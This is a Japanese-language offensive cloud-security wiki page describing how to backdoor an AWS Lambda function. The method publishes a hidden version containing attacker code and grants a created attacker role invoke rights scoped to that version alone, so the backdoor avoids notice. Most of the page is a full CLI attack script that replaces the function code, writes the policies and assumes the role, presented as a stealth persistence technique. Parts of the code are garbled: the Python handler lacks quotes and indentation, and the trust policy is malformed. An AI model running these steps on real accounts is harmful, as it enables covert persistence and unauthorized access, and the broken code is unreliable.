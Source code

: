 # AWS - Lambda Alias-Scoped Resource Policy Backdoor (Invoke specific hidden version)

{{#include ../../../../banners/hacktricks-training.md}}

## 概要

攻撃者のロジックを含む隠しの Lambda バージョンを作成し、`lambda add-permission` の `--qualifier` パラメータを使ってその特定のバージョン（または alias）に対してリソースベースのポリシーをスコープします。攻撃者プリンシパルには `arn:aws:lambda:REGION:ACCT:function:FN:VERSION` 上の `lambda:InvokeFunction` のみを付与します。関数名やプライマリアライアスを経由した通常の呼び出しは影響を受けず、攻撃者はバックドア化されたバージョンの ARN を直接呼び出せます。

これは Function URL を公開するよりステルス性が高く、プライマリのトラフィック用 alias を変更しません。

## 必要な権限（攻撃者）

- `lambda:UpdateFunctionCode`, `lambda:UpdateFunctionConfiguration`, `lambda:PublishVersion`, `lambda:GetFunctionConfiguration`
- `lambda:AddPermission`（バージョンにスコープされたリソースポリシーを追加するため）
- `iam:CreateRole`, `iam:PutRolePolicy`, `iam:GetRole`, `sts:AssumeRole`（攻撃者プリンシパルをシミュレートするため）

## 攻撃手順（CLI）

<details>
<summary>隠しバージョンを公開し、qualifier スコープの許可を追加し、攻撃者として呼び出す</summary>
```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# [Optional] If you want normal traffic unaffected, ensure a customer alias (e.g., "main") stays on a clean version
# aws lambda create-alias --function-name "$TARGET_FN" --name main --function-version <clean-version> --region "$REGION"

# 1) Build a small backdoor handler and publish as a new version
cat > bdoor.py <<PY
import json, os, boto3

def lambda_handler(e, c):
ident = boto3.client(sts).get_caller_identity()
return {"ht": True, "who": ident, "env": {"fn": os.getenv(AWS_LAMBDA_FUNCTION_NAME)}}
PY
zip bdoor.zip bdoor.py
aws lambda update-function-code --function-name "$TARGET_FN" --zip-file fileb://bdoor.zip --region $REGION
aws lambda update-function-configuration --function-name "$TARGET_FN" --handler bdoor.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --region $REGION --query LastUpdateStatus --output text)" = "Successful" ]; do sleep 2; done
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
VER_ARN=$(aws lambda get-function --function-name "$TARGET_FN:$VER" --region $REGION --query Configuration.FunctionArn --output text)
echo "Published version: $VER ($VER_ARN)"

# 2) Create an attacker principal and allow only version invocation (same-account simulation)
ATTACK_ROLE_NAME=ht-version-invoker
aws iam create-role --role-name $ATTACK_ROLE_NAME --assume-role-policy-document Version:2012-10-17 >/dev/null
cat > /tmp/invoke-policy.json <<POL
{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Allow",
"Action": ["lambda:InvokeFunction"],
"Resource": ["$VER_ARN"]
}]
}
POL
aws iam put-role-policy --role-name $ATTACK_ROLE_NAME --policy-name ht-invoke-version --policy-document file:///tmp/invoke-policy.json

# Add resource-based policy scoped to the version (Qualifier)
aws lambda add-permission \
--function-name "$TARGET_FN" \
--qualifier "$VER" \
--statement-id ht-version-backdoor \
--action lambda:InvokeFunction \
--principal arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME \
--region $REGION

# 3) Assume the attacker role and invoke only the qualified version
ATTACK_ROLE_ARN=arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME
CREDS=$(aws sts assume-role --role-arn "$ATTACK_ROLE_ARN" --role-session-name htInvoke --query Credentials --output json)
export AWS_ACCESS_KEY_ID=$(echo $CREDS | jq -r .AccessKeyId)
export AWS_SECRET_ACCESS_KEY=$(echo $CREDS | jq -r .SecretAccessKey)
export AWS_SESSION_TOKEN=$(echo $CREDS | jq -r .SessionToken)
aws lambda invoke --function-name "$VER_ARN" /tmp/ver-out.json --region $REGION >/dev/null
cat /tmp/ver-out.json

# 4) Clean up backdoor (remove only the version-scoped statement). Optionally remove the role
aws lambda remove-permission --function-name "$TARGET_FN" --statement-id ht-version-backdoor --qualifier "$VER" --region $REGION || true
```
</details>

## 影響

- primary alias を変更したり Function URL を公開したりすることなく、関数の隠されたバージョンをステルスなバックドアとして呼び出す権限を付与する。
- リソースベースポリシーの `Qualifier` を介して指定された version/alias のみに露出を限定し、検出対象を減らしつつ attacker principal による確実な呼び出しを維持する。

{{#include ../../../../banners/hacktricks-training.md}}

